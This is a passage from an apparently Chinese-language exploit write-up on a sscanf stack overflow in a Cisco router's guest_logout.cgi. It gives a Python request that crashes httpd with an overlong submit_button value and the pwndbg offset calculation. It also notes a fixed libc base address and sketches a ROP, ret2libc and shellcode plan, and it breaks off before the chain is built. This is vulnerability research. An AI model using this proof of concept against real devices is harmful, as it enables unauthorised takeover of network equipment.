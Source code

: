 4. 发送payloadShell4：使用

    ```
    cyclic 100
    ```

    生成的字符串

    ```
    "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
    ```

    来测试偏移

    ```python
     import requests
    
     url = "https://192.168.1.1/guest_logout.cgi"
     payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa',"cip":"192.168.1.100"}
    
     requests.packages.urllib3.disable_warnings()
     requests.post(url, data=payload, verify=False, timeout=1)
    ```

可以在gdb调试窗口上看到此时httpd已经崩溃了

[![img](https://p5.ssl.qhimg.com/t018cc3dcd84b2aa364.jpg)](https://p5.ssl.qhimg.com/t018cc3dcd84b2aa364.jpg)

计算出栈中pc的偏移

```
pwndbg> cyclic -l aaaw
85
```

#### 漏洞利用

由于mips架构下不支持NX保护，所以其利用思路一般都是ROP+shellcode

而这里是sscanf溢出，payload中要绕过`\x00`，但是程序本身的gadget都是含有`\x00`的

[![img](https://p1.ssl.qhimg.com/t01fad2b104eb327273.jpg)](https://p1.ssl.qhimg.com/t01fad2b104eb327273.jpg)

> 思科的这个设备，httpd进程的libc基址就是`2af98000`，无论你是重启进程，还是升级版本，这个基址都不变
>
> 问了常老师，再次猜测可能是为了效率，编译的时候就把内核的这个功能干掉了，或者当前平台压根就不支持这个功能。先存疑，总之我们发现动态库的基址都是不变的，故我们可以使用程序加载的动态库中的gadget。

暂时没有搞清楚mips架构下的地址随机化

所以可以通过ret2libc+shellcode来完成利用

从文件系统中找到动态链接库`/lib/libc.so.0`，使用mipsrop插件寻找可用的gadget

然而我在libc的idb文件中使用mipsrop插件时报错
